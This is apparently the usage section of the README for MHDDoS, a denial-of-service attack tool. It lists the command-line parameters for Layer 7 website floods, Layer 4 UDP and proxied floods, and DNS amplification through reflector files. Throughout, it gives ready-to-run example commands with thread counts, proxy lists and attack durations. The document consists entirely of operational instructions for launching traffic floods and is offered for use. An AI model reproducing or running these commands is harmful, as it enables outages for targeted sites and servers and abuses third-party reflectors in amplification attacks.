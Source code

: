 ## Parameters
* Layer7:
   > python3 start.py <1=method> <2=url> <3=socks_type> <4=threads> <5=proxylist> <6=rpc> <7=duration> <8=debug=optional>
  - 1: Method (type of attack)
  - 2: Target URL or IP Address
  - 3: Proxy Version ([Proxy Usage](https://github.com/MHProDev/MHDDoS/wiki/Proxy-Support-!))
  - 4: Proxy File ([Proxy File Format](https://github.com/MHProDev/MHDDoS/wiki/Proxy-Files))
  - 5: Number of threads to use ([Multi Threading](https://en.wikipedia.org/wiki/Multithreading_(computer_architecture)))
  - 6: RPC (Requests pre connection)
  - 7: Duration (Time to finish attack in seconds)
  - 8: Debug Mode (Optional)

* Layer4 Normal:
  > python3 start.py <1=method> <2=ip:port> <3=threads> <4=duration> <5=debug=optional>
  - 1: Method (type of attack)
  - 2: Target URL or IP Address
  - 3: Number of threads to use ([Multi Threading](https://en.wikipedia.org/wiki/Multithreading_(computer_architecture)))
  - 4: Duration (Time to finish attack in seconds)
  - 5: Debug Mode (Optional - [What is debug mode](https://github.com/MHProDev/MHDDoS/wiki/what-is-debug-mode))

* Layer4 Proxied:
  > python3 start.py <1=method> <2=ip:port> <3=threads> <4=duration> <5=socks_type> <6=proxylist> <7=debug=optional>
  - 1: Method (type of attack)
  - 2: Target URL or IP Address
  - 3: Number of threads to use ([Multi Threading](https://github.com/MHProDev/MHDDoS/wiki/Multithreading))
  - 4: Duration (Time to finish attack in seconds)
  - 5: Proxy Version ([Proxy Usage](https://github.com/MHProDev/MHDDoS/wiki/Proxy-Support-!))
  - 6: Proxy File ([Proxy File Format](https://github.com/MHProDev/MHDDoS/wiki/Proxy-Files))
  - 7: Debug Mode (Optional)

* Layer4 Amplification:
  > python3 MHDDoS/start.py <1=method> <2=ip:port> <3=threads> <4=duration> <5=refelector file> <6=debug=optional>
  - 1: Method (type of attack)
  - 2: Target URL or IP Address
  - 3: Number of threads to use ([Multi Threading](https://en.wikipedia.org/wiki/Multithreading_(computer_architecture)))
  - 4: Duration (Time to finish attack in seconds)
  - 5: Reflectors File ([Reflectors File](https://github.com/MHProDev/MHDDoS/wiki/Amplification-ddos-attack))
  - 6: Debug Mode (Optional)


## Examples
* Layer7 (Website):
```shell script
# Running bypass attack from 101 threads, 
# with socks 5, 100 requests per proxy (connection), for 3600 seconds  
python start.py bypass https://example.com 5 101 socks5.txt 100 3600
# Running bomb attack from 50 threads (be careful must be < 300)
# with all proxies (0), 100 requests per proxy (connection), for 3600 seconds
python start.py bomb https://example.com 0 50 proxy.txt 100 3600
```

* Layer4 (Server/Home):
```shell script
# Running udp attack from 1 threads, for 3600 seconds  
python start.py udp 1.1.1.1:53 1 3600
# Running dns attack from 100 threads, for 3600 seconds  
# with reflector servers from dns.txt, for 3600 seconds  
python start.py dns 1.1.1.1:53 100 3600 dns.txt
# Running minecraft attack from 1000 threads
# with socks 5, for 3600 seconds  
python start.py minecraft 1.1.1.1:53 1000 3600 5 socks5.txt
```

* Debug Mode (Log Attack status):
```shell script
python start.py bypass https://example.com 5 1000 socks5.txt 100 100 true
python start.py udp 1.1.1.1:53 1 100 true
python start.py dns 1.1.1.1:53 1 100 dns.txt true
python start.py minecraft 1.1.1.1:53 1 100 5 socks5.txt true
```

* Tools/Help:
```shell script
python start.py tools
python start.py help
```